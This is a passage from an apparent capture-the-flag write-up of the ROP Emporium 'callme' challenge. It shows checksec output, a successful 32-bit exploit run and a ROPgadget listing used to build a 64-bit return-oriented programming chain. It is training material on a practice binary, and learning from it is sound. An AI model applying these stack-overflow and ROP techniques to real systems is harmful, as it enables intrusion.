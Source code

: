 ```
[*] '/home/voidwalker/ROPEmporium/callmex86/callme32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
[+] Starting local process '/home/voidwalker/ROPEmporium/callmex86/callme32': pid 10625
b'callme by ROP Emporium\nx86\n\nHope you read the instructions...\n\n>'
b' Thank you!\ncallme_one() called correctly\ncallme_two() called correctly\nROPE{a_placeholder_32byte_flag!}\n'
```

## 64-bit ##
This time, the only difference, besides the different overflow offset which is 40 bytes, is that the values need to be doubled and we somehow need to pass the values through the registers ```rdi```, ```rsi```, and ```rdx```, with respect to the ```fastcall``` calling convention, specific to 64-bit Linux.
Let's have a look at the available ROP gadgets that pop stuff off the stack:
```
voidwalker@Abyss:[callmex64]** ROPgadget --binary=callme | grep pop
0x0000000000400892 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x000000000040083c : add byte ptr [rax], al ; add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x4007d0
0x000000000040083d : add byte ptr [rax], al ; add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x4007d0
0x00000000004007c6 : add byte ptr [rax], al ; pop rbp ; ret
0x000000000040083e : add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x4007d0
0x00000000004007c5 : add byte ptr [rax], r8b ; pop rbp ; ret
0x000000000040083f : add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x4007d0
0x0000000000400827 : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004007b9 : je 0x4007c8 ; pop rbp ; mov edi, 0x601070 ; jmp rax
0x00000000004007fb : je 0x400808 ; pop rbp ; mov edi, 0x601070 ; jmp rax
0x000000000040093b : lcall [rdi + 0x5e] ; pop rdx ; ret
0x0000000000400822 : mov byte ptr [rip + 0x20084f], 1 ; pop rbp ; ret
0x0000000000400891 : mov eax, 0 ; pop rbp ; ret
0x0000000000400842 : mov ebp, esp ; pop rbp ; jmp 0x4007d0
0x0000000000400841 : mov rbp, rsp ; pop rbp ; jmp 0x4007d0
0x00000000004007c3 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x0000000000400805 : nop dword ptr [rax] ; pop rbp ; ret
0x0000000000400824 : or byte ptr [r8], r12b ; add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400825 : or byte ptr [rax], ah ; add byte ptr [rcx], al ; pop rbp ; ret
0x000000000040099c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040099e : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004009a0 : pop r14 ; pop r15 ; ret
0x00000000004009a2 : pop r15 ; ret
0x0000000000400844 : pop rbp ; jmp 0x4007d0
0x00000000004007bb : pop rbp ; mov edi, 0x601070 ; jmp rax
0x000000000040099b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040099f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004007c8 : pop rbp ; ret
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
0x00000000004009a3 : pop rdi ; ret
0x000000000040093e : pop rdx ; ret
0x00000000004009a1 : pop rsi ; pop r15 ; ret
0x000000000040093d : pop rsi ; pop rdx ; ret
0x000000000040099d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400840 : push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x4007d0
```
